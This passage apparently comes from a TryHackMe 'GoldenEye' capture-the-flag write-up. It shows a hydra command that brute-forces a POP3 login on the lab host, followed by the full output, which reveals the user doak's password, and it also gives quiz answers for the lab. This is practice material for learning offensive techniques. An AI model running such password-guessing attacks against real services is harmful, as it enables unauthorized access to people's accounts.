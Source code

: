 ![Untitled](/assets/Golden%20Eye%20images/Untitled%203.png)

<p class="message">
✅ Answer: <strong>Doak</strong>

</p>

### What was this users password?

It’s time to re-use `hydra` to crack the password of the new user which have been found earlier:

```

┌──(kali㉿kali)-[~/TryHackMe/GoldenEye]
└─$ hydra -l doak -P ~/Wordlists/fasttrack.txt pop3://severnaya-station.com:55007
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these \*\*\* ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-02 12:04:50
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://severnaya-station.com:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 64.00 tries/min, 128 tries in 00:02h, 94 to do in 00:02h, 16 active
[55007][pop3] host: severnaya-station.com login: doak password: goat
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-02 12:07:16

```
